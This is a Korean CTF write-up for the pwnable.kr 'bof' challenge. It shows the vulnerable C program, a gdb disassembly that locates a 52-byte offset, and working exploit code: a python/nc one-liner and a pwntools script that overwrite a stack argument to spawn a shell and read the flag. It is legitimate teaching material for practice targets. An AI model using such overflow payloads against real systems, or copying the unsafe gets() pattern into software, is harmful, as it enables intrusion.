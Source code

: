 ```yaml
---
title: "[pwnable.kr][Toddler] bof"
tags: [pwnable.kr, Toddler's Bottle, writeup]
author: eli_ez3r
key: 20180913
modify_date: 2018-09-13
article_header:
  type: cover
  image:
    src: /assets/img/write-up/pwnable_kr.png
---
```


## keyword : Stack Canary

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

### 0x01. Staic Analysis

main에서 func함수를 호출하는데 인자 값으로 `0xdeadbeef`값을 전달한다.

func 함수에서 key값으로 `0xdeadbeef`를 받고, 사용자로 부터 입력 값을 받아 `overflowme` 배열에 저장한다.

<u>이때 overflowme배열은 32byte크기지만, gets함수로 입력을 받아 buffer overflow가 발생한다.</u>

그리고 key값이 `0xcafebabe` 인지 체크하고 맞으면 쉘을 실행한다.

**즉, buffer overflow를 시켜 func함수의 인자 값을 `0xcafebabe`로 변조하면 문제가 풀린다.**

-----

### 0x02. Dynamic Analysis

이제 func함수의 인자 값이 들어가는 스택 주소와, overflowme 배열의 주소의 거리를 구해야한다.

```
gdb-peda$ pdisas func
Dump of assembler code for function func:
   0x0000062c <+0>:     push   ebp
   0x0000062d <+1>:     mov    ebp,esp
   0x0000062f <+3>:     sub    esp,0x48
   0x00000632 <+6>:     mov    eax,gs:0x14
   0x00000638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:    xor    eax,eax
   0x0000063d <+17>:    mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:    call   0x645 <func+25>
   0x00000649 <+29>:    lea    eax,[ebp-0x2c]
   0x0000064c <+32>:    mov    DWORD PTR [esp],eax
   0x0000064f <+35>:    call   0x650 <func+36>
   0x00000654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x0000065b <+47>:    jne    0x66b <func+63>
   0x0000065d <+49>:    mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:    call   0x665 <func+57>
   0x00000669 <+61>:    jmp    0x677 <func+75>
   0x0000066b <+63>:    mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:    call   0x673 <func+71>
   0x00000677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:    je     0x688 <func+92>
   0x00000683 <+87>:    call   0x684 <func+88>
   0x00000688 <+92>:    leave
   0x00000689 <+93>:    ret
End of assembler dump.
```

`func+29` 부분을 보면 oeverflowme 배열의 주소를 eax에 저장하는데, `overflowme` 배열의 주소는 `ebp-0x2c` 이다. (0x2c = 44)

그리고 `func+40` 부분을 보면 func함수의 인자 값과 `0xcafebabe`와 비교하는데 이때 인자 값의 주소는 `ebp+0x8` 이다.

**따라서 overflowme 배열과 key값(func함수의 인자 값)의 주소의 거리는 52byte가 된다.**

-----

### 0x03. Exploit

그럼 이제 52byte의 쓰레기 값을 넣고, `0xcafebabe` 값을 넣어 `0xdeadbeef` 값을 변조시키자.

```
root@ubuntu:~/pwnable/bof# (python -c 'print "A"*52+"\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000
cat flag
daddy, I just pwned a buFFer :)
```

끄읏 :)

-----

##### python

```python
from pwn import *

conn = remote("pwnable.kr", 9000)

payload = "A"*52
payload += p32(0xcafebabe)

conn.sendline(payload)
conn.interactive()
```

```
root@ubuntu:~/pwnable/bof# python ex.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls -l
total 3748
-r-xr-x--- 1 root bof     7348 Sep 12  2016 bof
-rw-r--r-- 1 root root     308 Oct 23  2016 bof.c
-r--r----- 1 root bof       32 Jun 11  2014 flag
-rw------- 1 root root 3812010 Nov 14 21:45 log
-rw-r--r-- 1 root root       0 Oct 23  2016 log2
-rwx------ 1 root root     760 Sep 11  2014 super.pl
$ cat flag
daddy, I just pwned a buFFer :)
```

-----